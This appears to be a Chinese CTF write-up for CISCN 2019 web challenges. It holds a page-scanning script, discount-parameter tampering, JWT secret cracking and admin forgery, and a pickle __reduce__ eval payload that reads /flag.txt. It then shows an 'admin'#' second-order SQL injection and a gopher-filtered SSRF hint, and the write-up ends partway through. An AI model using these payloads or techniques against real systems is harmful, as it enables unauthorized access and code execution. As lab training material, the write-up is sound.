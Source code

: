 
## ikum bilibili CISCN 2019

1.用脚本找到v6最贵的

```
import requests

for i in range(1,200):
    url = 'http://124.126.19.106:43425/shop?page=' + str(i)
    res = requests.get(url)
    text = res.text

    if 'lv6.png' in text:
        print(i)
        break
```

2. 购买时抓包，修改discount为0.000000000001，购买成功后提示/b1g_m4mber
3. 访问提示只有admin，抓包请求头有一个jwt，base64后为自己的登录信息，用c-jwt-cracker-master跑出密码为ikun,用[在线工具](https://jwt.io/)修改ycc为admin，然后替换掉头部的jwt
4. 查看源码下载源码，在admin.py里有一段python序列化
![image](http://note.youdao.com/yws/res/1813/A2597ADDA5FF402FB364B10F60F7865A)
5.运用pickle的内置函数访问flag.txt，生成的序列化字符串替换became参数

```
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```

## Background_Management_System

照着writeup做完才发现网站根目录是http://124.126.19.106:55757/xinan/public/，所以一开始扫描目录什么也没有

![image](http://note.youdao.com/yws/res/1827/E153F4B18ED047739B7C9FFFB0BFF685)

1.存在www.zip，下载源码，可以发现修改密码存在漏洞，用admin'#和123注册，登录后修改密码，然后用admin和123登录

2.登录后提示hint,访问xinan/public/55ceedfbc97b0a81277a55506c34af36.php，接受参数url

3.源码在shell.php，cat  55ceedfbc97b0a81277a55506c34af36.php能看见限制了gopher协议

![image](http://note.youdao.com/yws/res/1844/BA1C13BD4BD74025A54C8340D57A8A02)

![image](http://note.youdao.com/yws/res/1839/22C56E58C43B435EA38E3B5592341882)
